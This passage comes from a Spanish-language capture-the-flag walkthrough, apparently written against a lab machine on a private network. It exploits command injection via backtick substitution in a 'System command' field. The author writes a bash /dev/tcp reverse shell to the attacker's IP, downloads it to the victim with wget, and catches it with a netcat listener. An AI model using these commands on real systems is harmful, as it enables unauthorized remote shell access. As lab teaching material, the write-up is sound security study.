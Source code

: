 <span style="color: red">¡VOILÀ!</span>, con esto hemos conseguido "escapar" de ese contexto, con el fin de utilizar otros comandos que no estaban planeados.

De esta forma, ahora vamos a intentar meter una **reverse shell** para conseguir una terminal.


## Explotación

Lo que haremos en primer lugar es crear la reverse shell, es decir, crear un script para que envíe una terminal bash por TCP a la IP de mi máquina por el puerto 443.

El fichero lo creamos como "shell.sh" y tendrá este aspecto:

~~~bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.0.24/443 0>&1
~~~

Ahora le damos permisos de ejecución:

`chmod +x shell.sh`

Creamos en la misma ruta un servidor en Python para "alojar" el script (por defecto si no se especifica se crea con puerto 8000).

`python3 -m http.server`

Ahora realizamos otra sustitución de comandos desde la máquina víctima para traernos el shell:

~~~bash
System command: echo `wget http://192.168.0.24:8000/shell.sh`
~~~

El intérprete no nos dirá nada como es lógico, por lo que para saber si ha funcionado miraremos en nuestra máquina donde tenemos el servidor montado:

~~~bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.0.25 - - [18/Nov/2022 21:55:40] "GET /shell.sh HTTP/1.1" 200 -
~~~

Ha funcionado correctamente tal y como se puede observar con el código 200.

Ahora ya podemos cerrar el servidor de Python y nos ponemos en escucha con Netcat:

~~~bash
❯ sudo nc -nlvp 443
[sudo] password for kaian: 
listening on [any] 443 ...
~~~

Ahora ejecutamos el shell en la máquina víctima:

~~~
System command: echo `bash ./shell.sh`
~~~

Nos vamos a nuestra ventana del Netcat y... chimpún:

~~~bash
connect to [192.168.0.24] from (UNKNOWN) [192.168.0.25] 45012
bash: cannot set terminal process group (332): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ ls
ls
shell.sh
user.txt
~~~
